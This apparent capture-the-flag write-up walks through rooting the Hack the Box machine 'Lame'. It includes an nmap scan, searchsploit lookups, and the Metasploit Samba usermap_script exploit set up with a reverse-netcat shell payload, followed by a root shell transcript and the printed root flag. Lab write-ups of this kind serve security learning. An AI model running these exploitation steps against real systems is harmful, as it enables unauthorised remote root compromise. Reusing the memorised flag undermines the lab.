 # `Lame`

Hack the Box

<br><br><br>

## Enumeration

1. Let's run nmap

   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ nmap 10.10.10.3 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-23 15:51 EST
   Nmap scan report for 10.10.10.3
   Host is up (0.030s latency).
   Not shown: 996 filtered tcp ports (no-response)
   PORT    STATE SERVICE     VERSION
   21/tcp  open  ftp         vsftpd 2.3.4
   |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | ftp-syst:
   |   STAT:
   | FTP server status:
   |      Connected to 10.10.14.3
   |      Logged in as ftp
   |      TYPE: ASCII
   |      No session bandwidth limit
   |      Session timeout in seconds is 300
   |      Control connection is plain text
   |      Data connections will be plain text
   |      vsFTPd 2.3.4 - secure, fast, stable
   |_End of status
   22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   | ssh-hostkey:
   |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
   |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
   139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
   Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

   Host script results:
   | smb-security-mode:
   |   account_used: <blank>
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   |_smb2-time: Protocol negotiation failed (SMB2)
   | smb-os-discovery:
   |   OS: Unix (Samba 3.0.20-Debian)
   |   Computer name: lame
   |   NetBIOS computer name:
   |   Domain name: hackthebox.gr
   |   FQDN: lame.hackthebox.gr
   |_  System time: 2021-11-23T15:40:24-05:00
   |_clock-skew: mean: 2h18m37s, deviation: 3h32m08s, median: -11m23s

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 56.49 seconds
   ```

2. Let's look for vuln for these services point of interest is port 21 and port 139/445
   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ searchsploit ftpd 2.3.4
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                                            |  Path
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   OpenBSD 2.x < 2.8 FTPd - 'glob()' Remote Buffer Overflow                                                                  | openbsd/remote/20733.c
   RhinoSoft Serv-U FTPd Server < 4.2 - Remote Buffer Overflow (Metasploit)                                                  | windows/remote/18190.rb
   vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
   vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
   -------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Shellcodes: No Result
   ```
3. Let's run Metasploit
4. So in metasploit after putting in the options of rhosts... I could not get a shell. For some reason that is not vulnerable? but funny how it says that, that particular version is.
5. It is also worth noting that you can login to the box through ftp using username `anonymous` and password `anonymous`... but there really isn't much you can do there as well. I think it's due to the fact of the user privilege.
6. Back in the MSFconsole lets search for the samba 3.0 service

   ```
   msf6 > search samba 3.0

   Matching Modules
   ================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/chain_reply            2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   3  exploit/osx/samba/lsa_transnames_heap      2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   4  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


   Interact with a module by name or index. For example info 4, use 4 or use exploit/solaris/samba/lsa_transnames_heap

   msf6 > use 0
   [*] No payload configured, defaulting to cmd/unix/reverse_netcat
   msf6 exploit(multi/samba/usermap_script) > options

   Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


   Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.15.37    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


   Exploit target:

   Id  Name
   --  ----
   0   Automatic
   ```

7. It is important to note (or maybe coz im noobish) that you will need to also change the LHOST param and use your tunnel's IP add.
8. A shell is giving when you run the exploit
   ```
   whoami
   root
   ls
   bin
   boot
   cdrom
   dev
   etc
   home
   initrd
   initrd.img
   initrd.img.old
   lib
   lost+found
   media
   mnt
   nohup.out
   opt
   proc
   root
   sbin
   srv
   sys
   tmp
   usr
   var
   vmlinuz
   vmlinuz.old
   cd root
   ls
   Desktop
   reset_logs.sh
   root.txt
   vnc.log
   cat root.txt
   a89ccd5f0604b08ed6c5498c76153ae3
   exit
   ```
9. And there we have it... root.txt contains the flag!

<br><Br><br>

# References

1. https://www.exploit-db.com/exploits/49757
2. https://www.exploit-db.com/exploits/16320
